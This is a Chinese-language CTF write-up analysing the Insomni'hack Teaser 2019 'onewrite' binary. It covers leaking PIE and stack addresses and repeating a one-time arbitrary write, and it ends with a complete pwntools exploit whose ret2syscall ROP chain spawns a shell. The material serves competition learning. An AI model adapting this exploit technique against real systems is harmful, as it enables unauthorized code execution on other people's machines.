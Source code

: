 > 原文链接: https://www.anquanke.com//post/id/169912 


# Insomni'hack Teaser 2019-onewrite详细解析


                                阅读量   
                                **160435**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p5.ssl.qhimg.com/t0115b0ce4e2b3de54c.png)](https://p5.ssl.qhimg.com/t0115b0ce4e2b3de54c.png)

新年第一场比赛是由知名CTF战队0daysober举办的所以题目质量还是很好的，其中还有一些真实漏洞的利用。这里记录一下做题经历。这个题目的利用方式还是很新的很有借鉴意义。真的是比赛虐我千百遍我待比赛如初见。。

## 程序分析

首先打开程序的时候ida加载了很久，大概看了一下函数数量，编译的时候没有去符号很多libc库的函数都在但是file文件又是动态链接这里还是比较新奇他用的编译器是什么。。

### <a class="reference-link" name="main"></a>main

[![](https://p4.ssl.qhimg.com/t01bd796967b34844e1.png)](https://p4.ssl.qhimg.com/t01bd796967b34844e1.png)

首先main函数给了我们提示，这里会有一个leak和一个write的机会，但是只有一次额

### <a class="reference-link" name="do_leak"></a>do_leak

[![](https://p5.ssl.qhimg.com/t01228bae9d34bae249.png)](https://p5.ssl.qhimg.com/t01228bae9d34bae249.png)

大概分析一下程序，我们可以泄漏stack或者pie的地址但是均只有一次泄漏的机会，只能利用一次然后会进入到下一个函数overwrite

### <a class="reference-link" name="overwrite"></a>overwrite

[![](https://p2.ssl.qhimg.com/t0115f611fbb46b2a18.png)](https://p2.ssl.qhimg.com/t0115f611fbb46b2a18.png)

程序很简单就是输入地址然后我们能写入8个字节的一个数。

### <a class="reference-link" name="read_int3"></a>read_int3

[![](https://p3.ssl.qhimg.com/t0163930e377b42a18d.png)](https://p3.ssl.qhimg.com/t0163930e377b42a18d.png)

截图出这个函数的目的是因为这里限制了输入是15个字节所以在些exp的时候我们需要使用send而不是sendline否则会出现一些覆盖不成功的问题（作为新手的我被大佬点醒了的地方）

### <a class="reference-link" name="ROPchain%E5%88%86%E6%9E%90"></a>ROPchain分析

我一般用的工具是ropchain，因为这是栈的题目，二进制文件中又包含了大量的libc函数的信息，并且没有给我们libc版本我们也做不到泄漏libc版本这个操作（当时做题感觉做不到，后来发现可能可以做到没有去实现）

```
- Step 3 -- Init syscall arguments gadgets

   [+] Gadget found: 0x84fa pop rdi ; ret
   [+] Gadget found: 0xd9f2 pop rsi ; ret
   [+] Gadget found: 0x484c5 pop rdx ; ret
   [+] Gadget found: 0x917c syscall
```

搜索出来的结果还是比较在意料之中，所以大概估计就是利用ret2syscall了，不过接下来要解决的就是怎么做到循环利用之前的那些函数了，让任意写可以多次，来布置我们的栈。

静态分析大概就是这些，这个题目有大量的时间是需要进行动态调试才能实现。这里有个坑，我在py代码里使用gdb.attach(p)是会报错的，但是用raw_input暂停程序后在进行是不会出现这种问题的了。



## 动态调试

### <a class="reference-link" name="leak%E5%88%86%E6%9E%90"></a>leak分析

主要是看看泄漏出的地址是哪一个，这里贴出栈的地址，关于pie就是泄漏了do_leak函数

[![](https://p1.ssl.qhimg.com/t01ecfcd57eb8bd73f9.png)](https://p1.ssl.qhimg.com/t01ecfcd57eb8bd73f9.png)

[![](https://p0.ssl.qhimg.com/t01c5a2bb38b79bd23a.png)](https://p0.ssl.qhimg.com/t01c5a2bb38b79bd23a.png)

<a class="reference-link" name="%E4%B8%AD%E9%83%A8%E6%80%9D%E8%B7%AF"></a>**中部思路**

覆盖ret地址，循环利用泄漏pie。

### <a class="reference-link" name="%E8%BF%9B%E4%B8%80%E6%AD%A5%E8%B0%83%E8%AF%95"></a>进一步调试

这里就不贴图了，你会发现如果只覆盖一次那么在循环2次之后程序就会结束运行，我估计是栈的变动导致的，所以查看一下栈的分布。

[![](https://p5.ssl.qhimg.com/t015868983646e9e5d3.png)](https://p5.ssl.qhimg.com/t015868983646e9e5d3.png)

其中会有很多的其他栈信息，这里我们可以利用任意写不断的进行一个覆盖让栈里只剩下do_leak地址那么我们就可以重复利用多次了。下面贴一张覆盖后的图

[![](https://p1.ssl.qhimg.com/t014f36a014f07ce0b5.png)](https://p1.ssl.qhimg.com/t014f36a014f07ce0b5.png)

这里可以看见覆盖了好多。。。紧接着的地址就是我们的rop了。



## 思路分析

一、先进行第一次重复利用泄漏出pie地址<br>
二、不断填充栈使我们可以多次重复利用do_leak函数中的任意写函数<br>
三、布置ROP，在执行rop之前需要不断进行消耗do_leak地址因为之前写的比较多之后就可以getshell了



## exp

```
from pwn import*

p = process('./onewrite.dms')
#p=remote("onewrite.teaser.insomnihack.ch",1337)
context.log_level = 'debug'
raw_input()
def leak(number):
    p.recvuntil('&gt; ')
    p.sendline(str(number))
    stack = int(p.recvuntil('n'),16)
    return stack
def write(address,data):
    p.recvuntil(" : ")
    p.send(str(address))
    p.recvuntil(' : ')
    p.send(data)

stack = leak(1)
write(stack-8,chr(0x15))
leak_do = leak(2) - 0x8a15
Lbase = leak_do + 0x8a15
write(stack-0x20,'x15')

for i in range(10):
    leak('1')
    write(stack-8-0x18*(i+2),'x15')

for i in range(10):
    leak('2')
    if i%2==0:
        write(stack-0x108+0x30*int(i/2),p64(Lbase))
    else:
        write(stack-0xf0+0x30*int(i/2),p64(Lbase))

pop_rdi = leak_do+0x84fa
pop_rsi = leak_do+0xd9f2
pop_rdx = leak_do+0x484c5
pop_rax = leak_do+0x460ac
syscall = leak_do+0x4610E
bss = leak_do+0x2B3300

leak('1')
write(bss,'/bin/shx00')
payload = [pop_rax,0x3b,pop_rdi,bss,pop_rsi,0,pop_rdx,0,syscall]

for i in range(len(payload)):               
    leak('1')
    write(stack-0x20+i*8,p64(payload[i]))
raw_input()
for i in range(10):
    leak('1')
    write(stack-0x100,'peanuts')

p.interactive()
```



## 总结

这个题目的代码分析上很简单，但是更多的工作是在调试上，调试可能要花上好几个小时的时间，因为需要看栈的分布计算栈的位置等等问题很多。也学到了很多，国际赛最好的一点就是可以开拓你的思路，还是那句话比赛虐我千百遍，我待比赛如初恋啊。。
